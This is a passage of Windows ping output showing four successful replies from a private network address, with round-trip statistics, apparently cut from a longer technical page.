Pinging 192.168.110.56 with 32 bytes of data:
Reply from 192.168.110.56: bytes=32 time<1ms TTL=128
Reply from 192.168.110.56: bytes=32 time<1ms TTL=128
Reply from 192.168.110.56: bytes=32 time<1ms TTL=128
Reply from 192.168.110.56: bytes=32 time<1ms TTL=128

Ping statistics for 192.168.110.56:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

&nbsp;